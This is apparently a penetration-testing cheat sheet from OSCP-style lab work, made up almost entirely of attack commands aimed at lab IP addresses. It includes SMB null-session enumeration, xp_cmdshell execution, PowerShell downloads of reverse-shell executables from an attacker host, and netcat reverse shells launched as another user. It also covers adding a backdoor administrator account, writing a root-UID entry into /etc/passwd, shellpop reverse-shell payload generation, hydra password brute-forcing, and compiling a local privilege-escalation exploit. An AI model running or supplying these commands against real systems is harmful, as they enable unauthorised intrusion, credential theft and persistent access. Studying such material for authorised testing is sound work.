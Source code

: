 #### SMB commands
smbmap -H 10.11.1.136 -u null -p ""   
smbmap -H 10.11.1.136 -u null -p "" -R   
smbclient \\\\10.11.1.136\\'Bob Share' ""    
smbclient \\\\\\\10.11.1.136\\\\'Bob Share' ""    

#### xp_cmdshell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user" 10.11.1.31 

#### transfer files
powershell -c (Invoke-WebRequest -Uri 'http://10.11.0.232/rev.exe' -OutFile 'C:\Users\Public\rev.exe')    
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.0.232/shell.exe','C:\Users\Public\shell.exe')   

#### execute cmd as another user 
psexec.exe -u alice -p some-pass "c:\Users\Public\nc.exe" 10.11.0.49 443 -e cmd.exe

#### execute nc as another user
$passwd = ConvertTo-SecureString "some-pass" -AsPlainText -Force   
$mycreds = New-Object System.Management.Automation.PSCredential ("alice", $passwd)    
$computer = "bethany"    
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe"," -nvv 10.11.0.254 8082 -e cmd.exe",    
$mycreds.Username, $mycreds.Password, $computer)   

#### add windows admin user
net user sl0wly sl0wly /add   
net localgroup administrators sl0wly /add    

#### shellpop
shellpop --list 

#### shellpop reverse tcp
shellpop --payload linux/reverse/tcp/bash --host tap0 --port 443 --base64      
shellpop --payload linux/reverse/tcp/php --host tap0 --port 443     
shellpop --payload windows/reverse/tcp/powershell --host tap0 --port 443 --base64      

#### /etc/passwd writeable
echo 'slow:aaKNIEDOaueR6:0:0:slow:/root:/bin/bash' >> /etc/passwd   
su slow   
(foo)  

#### RDP
rdesktop -u sl0wly 10.11.1.31

#### HYDRA BF
hydra -l root -P /usr/share/wordlist/rockyou.txt -T 20 10.11.1.71 ssh
hydra -s 27900 -C /usr/share/wordlist/sparta/mssql-default-userpass.txt -f 10.11.1.128 mssql

#### compling .exe on kali
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#### TMUX 
tmux new-session -d -s alice s    
tmux send-keys -t alice "AR 10.11.1.5 -o /git/oscp/labs"
